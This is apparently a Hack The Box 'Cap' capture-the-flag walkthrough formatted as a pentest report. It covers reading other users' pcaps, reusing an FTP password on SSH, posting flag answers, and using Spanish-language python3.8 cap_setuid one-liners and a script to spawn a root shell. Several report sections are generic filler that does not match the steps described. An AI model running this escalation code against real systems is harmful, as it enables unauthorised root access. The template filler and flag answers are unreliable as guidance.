










# Security Assessment Report: Cap


**Technical Security Assessment & Penetration Testing Report** conducted on the target environment **Cap** hosted on **Hack The Box**, executed in accordance with **PTES and NIST SP 800-115** and **PTES (Penetration Testing Execution Standard)** methodologies.

---

## 📑 1. Executive Summary

* **Assessment Objective:** Identify, validate, and exploit security vulnerabilities across the target host to assess operational impact on confidentiality, integrity, and system availability.
* **Risk Rating:** `CRITICAL` (Unauthenticated remote exploit vector leading to complete host compromise and administrative takeover).
* **Initial Access Vector:** Public-Facing Network Service Exploitation
* **Privilege Escalation Vector:** Local Privilege Escalation
* **Engagement Outcome:** Complete Host Compromise (`User Proof` and `Root / SYSTEM Proof` successfully retrieved and verified).

### Target Technical Specifications

| Parameter | Technical Detail |
| :--- | :--- |
| **Target Host** | Cap |
| **Platform** | Hack The Box |
| **Operating System** | Linux |
| **Difficulty Rating** | Easy |
| **Associated CVE(s)** | N/A |
| **Initial Foothold Vector** | Public-Facing Network Service Exploitation |
| **Privilege Escalation Vector** | Local Privilege Escalation |
| **Lead Penetration Tester** | Pedro Araiz (`araizcorp`) |

---

## 🎯 2. Attack Path & Kill Chain Workflow

```
[ Phase 1: Reconnaissance & Port Scanning ]
         │─── TCP SYN scanning and service fingerprinting (Nmap)
         └─── Attack surface mapping and daemon enumeration
         │
         ▼
[ Phase 2: Vulnerability Analysis & Service Enumeration ]
         │─── Web directory fuzzing, parameter discovery, and banner analysis
         └─── CVE identification and credential harvesting
         │
         ▼
[ Phase 3: Exploitation & Initial Foothold ]
         │─── Exploit delivery: Public-Facing Network Service Exploitation
         └─── Establishing an interactive reverse shell with unprivileged user context
         │
         ▼
[ Phase 4: Local Privilege Escalation ]
         │─── Internal audit: Local Privilege Escalation
         └─── Elevation to superuser / administrator privileges (root / SYSTEM)
         │
         ▼
[ Phase 5: Evidence & Flag Retrieval ]
         └─── Capture and cryptographic verification of user.txt and root.txt
```

---

## 🔬 3. Technical Walkthrough & Step-by-Step Proof of Concept

> **Assessment Query / Target Milestone:** How many TCP ports are open?

* **Observed Evidence / Output:** 3



* **Technical Finding (Phase 1):** Initial network reconnaissance and service detection exposing active daemons and communication endpoints.


**After running a "Security Snapshot", the browser is redirected to a path of the format** `/[something]/[id]`**, where** `[id]` **represents the id number of the scan. What is the** `[something]`

* **Observed Evidence / Output:** data



* **Technical Finding (Phase 2):** Attack surface enumeration, directory discovery, or parameter analysis identifying potential vulnerability vectors.


**Are you able to get to other users' scans?**

* **Observed Evidence / Output:** yes



* **Assessment Step 03:** Command execution output, exploit delivery proof, or auxiliary evidence.



* **Assessment Step 04:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What is the ID of the PCAP file that contains sensative data?

* **Observed Evidence / Output:** 0



* **Assessment Step 05:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** Which application layer protocol in the pcap file can the sensetive data be found in?

* **Observed Evidence / Output:** ftp



* **Assessment Step 06:** Command execution output, exploit delivery proof, or auxiliary evidence.


**We've managed to collect nathan's FTP password. On what other service does this password work?**

* **Observed Evidence / Output:** ssh



* **Assessment Step 07:** Command execution output, exploit delivery proof, or auxiliary evidence.


**Submit the flag located in the nathan user's home directory.**

* **Observed Evidence / Output:** 0390cba37dda81b28c4cd07cbeb07f0b



* **Assessment Step 08:** Command execution output, exploit delivery proof, or auxiliary evidence.


> **Assessment Query / Target Milestone:** What is the full path to the binary on this machine has special capabilities that can be abused to obtain root privileges?

* **Observed Evidence / Output:** /usr/bin/python3.8



* **Privilege Escalation PoC (Phase 4):** Exploitation of misconfiguration, SUID binary, or vulnerability leading to elevated privileges.


> **Assessment Query / Target Milestone:** Submit the flag located in root's home directory.

* **Observed Evidence / Output:** 7c2f96d18962057bc15a4b323158063d



* **Evidence Verification (Phase 5):** Final administrative validation confirming root/SYSTEM access and retrieval of system flags.


> 
> 
> 
> # Escalada con `python3.8` que tiene `cap_setuid+eip`
> 

> **Assessment Query / Target Milestone:** > ## ¿Qué ves con `getcap`?
> 
> ```
> /usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
> 
> ```
> 
> Significa que **ese binario** trae embebidas capacidades de Linux (file capabilities):
> 
> - `cap_setuid` → el proceso **puede** cambiar su UID (p. ej., a 0).
> - `+eip` → la capacidad está en los conjuntos **E**ffective, **I**nheritable y **P**ermitted del **archivo**.
>     
>     En la práctica, al ejecutar el binario obtendrás la cap al menos en **Permitted**; a veces no queda **Effective** “levantada” por restricciones del entorno (p. ej., `no_new_privs` heredado o cómo arranca el intérprete).
>     
> 
> Por eso, el simple:
> 
> ```bash
> /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash -p")'
> 
> ```
> 
> puede fallar con **`Operation not permitted`**: tienes la cap en *Permitted* pero **no** en *Effective*.
> 
> ## Fix: levantar la cap a **Effective** con `libcap` y luego hacer `setuid(0)`
> 
> One-liner que funciona:
> 
> ```bash
> /usr/bin/python3.8 -c 'import ctypes,os
> libcap=ctypes.CDLL("libcap.so.2")
> CAP_SETUID=7; CAP_EFFECTIVE=2
> cap=libcap.cap_get_proc()
> libcap.cap_set_flag(cap, CAP_EFFECTIVE, 1, (ctypes.c_int*1)(CAP_SETUID), 1)
> libcap.cap_set_proc(cap)
> os.setuid(0); os.execl("/bin/bash","bash","-p")'
> 
> ```
> 
> ### Qué hace, paso a paso
> 
> 1. **Carga libcap**: `ctypes.CDLL("libcap.so.2")` para manipular capacidades del proceso.
> 2. **Lee capacidades del proceso**: `cap_get_proc()`.
> 3. **Activa CAP_SETUID en el set Effective**: `cap_set_flag(..., CAP_EFFECTIVE, ...)`.
> 4. **Aplica los cambios**: `cap_set_proc(cap)`.
> 5. **Cambia a root**: `os.setuid(0)`.
> 6. **Shell como root, preservando privilegios**: `bash -p`.
> 
> > Nota: no necesitas setgid(0) porque no tienes cap_setgid. Con EUID=0 basta.
> > 
> 
> ---
> 
> ## Comprobaciones útiles
> 
> Ver si realmente tienes la cap en **Permitted/Effective** y si heredas `no_new_privs`:
> 
> ```bash
> /usr/bin/python3.8 -c 's=open("/proc/self/status").read()
> print("\n".join(l for l in s.splitlines() if l.startswith(("CapPrm","CapEff","CapInh","NoNewPrivs"))))'
> 
> ```
> 
> - `CapPrm` con bit de `CAP_SETUID` y `CapEff` sin él ⇒ necesitas el snippet de `libcap`.
> - `NoNewPrivs: 1` ⇒ puede impedir aplicar caps al *exec*. Aun así, si `CapPrm` ya lo tienes, **promover a Effective** suele funcionar (como arriba).
> 
> ---
> 
> ## Variantes y alternativas
> 
> ### A) Variante con `setresuid` (libc)
> 
> Útil si `os.setuid` diera lata:
> 
> ```bash
> /usr/bin/python3.8 -c 'import ctypes,os
> libcap=ctypes.CDLL("libcap.so.2"); libc=ctypes.CDLL("libc.so.6")
> CAP_SETUID=7; CAP_EFFECTIVE=2
> cap=libcap.cap_get_proc()
> libcap.cap_set_flag(cap, CAP_EFFECTIVE, 1, (ctypes.c_int*1)(CAP_SETUID), 1)
> libcap.cap_set_proc(cap)
> libc.setresuid(0,0,0)
> os.execl("/bin/sh","sh","-p")'
> 
> ```
> 
> ### B) Script en fichero
> 
> ```bash
> cat >/tmp/cap2root.py <<'PY'
> import ctypes, os
> libcap=ctypes.CDLL("libcap.so.2")
> CAP_SETUID=7; CAP_EFFECTIVE=2
> cap=libcap.cap_get_proc()
> libcap.cap_set_flag(cap, CAP_EFFECTIVE, 1, (ctypes.c_int*1)(CAP_SETUID), 1)
> libcap.cap_set_proc(cap)
> os.setuid(0)
> os.execl("/bin/bash","bash","-p")
> PY
> /usr/bin/python3.8 /tmp/cap2root.py
> 
> ```
> 
> ### C) Si el binario con cap es **otro** (idea general)
> 
> El patrón es el mismo: **ejecuta el binario capado**, **promueve a Effective** la cap que te interesa y luego llama a la syscall correcta.
> 
> En este caso nos interesa `CAP_SETUID`; con otras caps (p. ej. `cap_net_bind_service`) *no* obtienes root, solo privilegios de red.
> 
> ---
> 
> ## Resumen para tu chuleta
> 
> - **Detección**: `getcap -r / 2>/dev/null | grep cap_setuid`
> - **Comprobación en proceso**: mira `CapPrm/CapEff` en `/proc/self/status`.
> - **Explotación**: activar `CAP_SETUID` en **Effective** con `libcap`, luego `setuid(0)` y shell `p`.
> 
> Corta-pega “ganador”:
> 
> ```bash
> /usr/bin/python3.8 -c 'import ctypes,os
> libcap=ctypes.CDLL("libcap.so.2"); CAP_SETUID=7; CAP_EFFECTIVE=2
> cap=libcap.cap_get_proc()
> libcap.cap_set_flag(cap, CAP_EFFECTIVE, 1, (ctypes.c_int*1)(CAP_SETUID), 1)
> libcap.cap_set_proc(cap)
> os.setuid(0); os.execl("/bin/bash","bash","-p")'
> 
> ```
>

---

## 🛡️ 4. Strategic Remediation & Hardening Roadmap

### 🛡️ Prioritized Findings, Attack Path Preconditions & Repeatable Verification

| Finding & Precondition | Attack Path Impact | Remediation Action | Repeatable Verification Command |
| :--- | :--- | :--- | :--- |
| **P1: Public-Facing Network Service Exploitation**<br>*Precondition:* Public network service reachable without rate-limiting, authentication barriers, or egress filtering. | **High / Critical (Foothold Chokepoint)**<br>Altered the primary attack path by exposing unauthenticated remote access to internal context. | Audit listening sockets via `ss -tulpn`, apply UFW / iptables rules, and patch daemon binaries. | `nmap -p- --open -T4 $TARGET_IP` |
| **P1: Local Privilege Escalation**<br>*Precondition:* Missing kernel hotfixes, legacy software versions, or world-readable credential configuration files. | **Critical (Full Compromise)**<br>Enabled complete elevation of privileges from unprivileged user to superuser / administrator. | Apply OS kernel security updates and implement centralized secret management. | `uname -r && apt-get -s upgrade | grep -i security` |

#### 🔬 Repeatable Verification Procedures (Defensive Validation)

**1. Verification for Ingress / Foothold Mitigation (Public-Facing Network Service Exploitation):**
* **Validation Goal:** Confirm the remote exploitation path is definitively closed and non-exploitable.
* **Deterministic Test Command:**
```bash
nmap -p- --open -T4 $TARGET_IP
```
* **Expected Output upon Successful Remediation:**
```text
Only strictly required operational ports exposed (e.g., 443/TCP)
```

**2. Verification for Local Privilege Escalation Mitigation (Local Privilege Escalation):**
* **Validation Goal:** Enforce strict least-privilege boundary preventing local execution context from elevating to administrative/root privileges.
* **Deterministic Test Command:**
```bash
uname -r && apt-get -s upgrade | grep -i security
```
* **Expected Output upon Successful Remediation:**
```text
0 upgraded, 0 newly installed, 0 to remove (Fully patched kernel and packages)
```

### Immediate Tactical Actions (P1)
1. **Patch Management & Software Upgrades:** Immediately apply official security updates and patches for all vulnerable software components and exposed services (N/A).
2. **Access Control & SUID Audit:** Remove unnecessary SUID/SGID bits, audit `/etc/sudoers` rules, and enforce strict Access Control Lists (ACLs) on sensitive files and administrative scripts.
3. **Attack Surface Reduction:** Configure host-based firewalls (e.g., `iptables` / `ufw` / Windows Firewall) to restrict exposure of management services and internal ports to trusted administrative subnets only.

### Architectural & Defensive Hardening (P2)
1. **Principle of Least Privilege (PoLP):** Ensure public-facing daemons run under dedicated low-privileged service accounts configured with non-interactive login shells (`/sbin/nologin`).
2. **Network Microsegmentation:** Isolate production servers and database tiers within dedicated VLANs, enforcing stateful inspection and ingress/egress filtering on east-west traffic.
3. **Endpoint Detection & Telemetry (EDR):** Implement centralized logging and behavior-based detection rules to capture anomalous process spawning, unauthorized script interpreter execution, and suspicious outbound socket connections.

---

## 📊 5. MITRE ATT&CK Enterprise Framework Mapping

| Tactic | Technique ID | Technique Name | Technical Application in Engagement |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | `T1595.002` | Active Scanning: Vulnerability Scanning | Automated and manual port scanning, banner grabbing, and service discovery |
| **Initial Access** | `T1190` | Exploit Public-Facing Application | Exploitation of exposed network/web service (Public-Facing Network Service Exploitation) |
| **Execution** | `T1059` | Command and Scripting Interpreter | Interactive reverse shell execution and remote command dispatch |
| **Privilege Escalation** | `T1068 / T1548` | Abuse Elevation Control Mechanism / Exploitation | Local elevation to administrative/root privileges (Local Privilege Escalation) |

---

© 2026 **araizcorp** — Technical documentation and security assessment portfolio developed for enterprise penetration testing enablement, vulnerability research, and defensive hardening.
